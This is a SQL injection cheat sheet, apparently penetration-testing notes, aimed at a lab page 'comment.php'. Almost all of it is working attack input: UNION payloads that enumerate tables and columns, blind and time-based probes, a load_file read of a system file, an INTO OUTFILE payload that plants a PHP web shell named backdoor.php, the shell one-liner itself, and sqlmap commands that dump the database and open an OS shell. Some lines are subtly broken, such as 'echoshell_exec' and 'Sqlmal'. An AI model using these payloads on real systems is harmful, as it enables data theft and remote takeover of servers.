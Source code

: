 # SQL Injection

### Enumerating the Database (using union statements)
```
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,@@version,6
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,5,6
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,column_name,6%20from%20information_schema.columns%20where%20table_name=%27users%27
```

### Blind SQL Injection
```
http://10.x.x.x/comment.php?id=782%20and%201=1 (and 1=1)
http://10.x.x.x/comment.php?id=782-sleep(5) (-sleep(5))
```

### load_file Function
```
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,load_file(“c:/windows/system32/drivers/etc/hosts”),6

```
### into OUTFILE
```
Into OUTFILE
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,%22%3C?php%20echoshell_exec($_GET[%27cmd%27]);?%3E%22,6%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27
```

### PHP One-Liner
```
<?php echo shell_exec($_GET['cmd']);?>"
```

### SQLMap
```
Sqlmal -u http://10.x.x.x --crawl=1
Sqlmap -u http://10.x.x.x/comment.php --dump --dbms=mysql --threads=5
Sqlmap -u http://10.x.x.x/comment.php --dbms=mysql --threads=5 --os-shell

```
